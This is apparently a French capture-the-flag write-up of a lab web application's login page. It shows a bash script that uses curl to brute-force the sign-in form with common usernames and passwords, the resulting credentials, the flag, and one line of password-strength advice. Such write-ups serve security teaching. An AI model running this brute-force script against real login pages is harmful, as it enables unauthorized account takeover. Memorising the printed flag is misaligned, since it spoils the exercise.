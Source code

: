 # Authentication Vulnerability

Sur la page http://ip/?page=signin, il est possible via un script de brutforce avec les usernames et mdp les plus rependu de trouver plusieurs comptes :

**Script de brutforce** :
```
#!/bin/bash
usernames=("root" "admin"  "adm" "user" "administrator" "admins")
passwords=("123456" "password" "12345678" "qwerty" "123456789" "12345" "1234" "111111" "1234567" "dragon" "123123" "baseball" "abc123" "football" "monkey" "letmein" "shadow" "master" "666666" "qwertyuiop" "123321" "mustang" "1234567890" "michael" "654321" "superman" "1qaz2wsx" "7777777")


for username in "${usernames[@]}";
do
    for password in "${passwords[@]}";
    do
        try=`curl -v http://192.168.56.105/index.php\?page\=signin\&username\=$username\&password\=$password\&Login\=Login\# 2>&1 | grep WrongAnswer | wc -l`
        if [ "$try" != "1" ];
        then
            echo $username:$password
        fi
    done
done
```

**Output:**

```
$ ./bruteforce.sh
root:shadow
admin:shadow
adm:shadow
user:shadow
administrator:shadow
admins:shadow
```

>The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

- Se protéger du bruteforce, choisir un mot de passe robuste, minimum 8 à 12 caractère mélangeant les majuscules, les minuscules, des chiffres et des caractères spéciaux.
